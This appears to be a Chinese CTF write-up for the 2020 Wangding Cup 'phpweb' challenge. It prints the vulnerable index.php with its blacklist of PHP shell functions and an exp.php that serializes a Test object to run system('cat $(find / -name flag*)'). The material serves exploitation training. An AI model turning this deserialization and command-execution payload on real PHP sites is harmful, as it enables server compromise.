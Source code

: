 # 原创
：  [网鼎杯 2020 朱雀组]phpweb

# [网鼎杯 2020 朱雀组]phpweb

#### [网鼎杯 2020 朱雀组]phpweb

## 考点

> 
PHP反序列化


## 思路

> 
抓包发现可以php代码执行



## Payload

> 
方法一


```
index.php源码

&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;phpweb&lt;/title&gt;
    &lt;style type="text/css"&gt;
        body {
            background: url("bg.jpg") no-repeat;
            background-size: 100%;
        }
        p {
            color: white;
        }
    &lt;/style&gt;
&lt;/head&gt;

&lt;body&gt;
&lt;script language=javascript&gt;
    setTimeout("document.form1.submit()",5000)
&lt;/script&gt;
&lt;p&gt;
    &lt;?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this-&gt;func != "") {
                echo gettime($this-&gt;func, $this-&gt;p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?&gt;
&lt;/p&gt;
&lt;form  id=form1 name=form1 action="index.php" method=post&gt;
    &lt;input type=hidden id=func name=func value='date'&gt;
    &lt;input type=hidden id=p name=p value='Y-m-d h:i:s a'&gt;
&lt;/body&gt;
&lt;/html&gt;

```

> 
其中的class，没有对参数进行验证，可以进行绕过


```
function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }


    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this-&gt;func != "") {
                echo gettime($this-&gt;func, $this-&gt;p);
            }
        }
    }

```

```
exp.php

&lt;?php 
function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    }
}
class Test {
    var $p = "cat $(find / -name flag*)";
    var $func = "system";
    function __destruct() {
        if ($this-&gt;func != "") {
            echo gettime($this-&gt;func, $this-&gt;p);
        }
    }
}

echo (serialize(new Test()));
?&gt;

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210525235209992.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210525235218499.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
方法二


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210525235235785.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210525235241863.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
